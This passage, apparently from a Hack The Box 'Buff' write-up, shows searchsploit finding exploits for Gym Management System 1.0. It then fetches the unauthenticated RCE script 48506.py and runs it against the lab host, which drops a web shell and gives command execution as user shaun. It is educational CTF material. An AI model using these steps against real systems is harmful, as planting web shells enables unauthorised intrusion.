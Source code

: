 ### Gym Management System - Exploit

On searching for Gym Management system exploit, we come across an Unauthenticated RCE exploit:

```shell
cfx:  ~/Documents/htb/buff
→ searchsploit Gym
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Gym Management System 1.0 - 'id' SQL Injection                                                                                                              | php/webapps/48936.txt
Gym Management System 1.0 - Authentication Bypass                                                                                                           | php/webapps/48940.txt
Gym Management System 1.0 - Stored Cross Site Scripting                                                                                                     | php/webapps/48941.txt
Gym Management System 1.0 - Unauthenticated Remote Code Execution                                                                                           | php/webapps/48506.py

------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
Papers: No Results
```
#### Mirroring the exploit to local machine
```
cfx:  ~/Documents/htb/buff
→ searchsploit -m php/webapps/48506.py
  Exploit: Gym Management System 1.0 - Unauthenticated Remote Code Execution
      URL: https://www.exploit-db.com/exploits/48506
     Path: /usr/share/exploitdb/exploits/php/webapps/48506.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /root/Documents/htb/buff/48506.py
```

## Shell as shaun

### Psuedo Shell

The exploit is pretty straight forward and only expects a single argument which is the host url. It basically drops a web shell named `kamehameha` bypassing the image upload functionality of the software.

Exploit is written in python2 and makes use of `colorma` module which can be installed using `pip install colorma` if in case it's not present on the machine.

```shell
cfx:  ~/Documents/htb/buff
→ python2 48506.py http://10.10.10.198:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> whoami
�PNG

buff\shaun
```
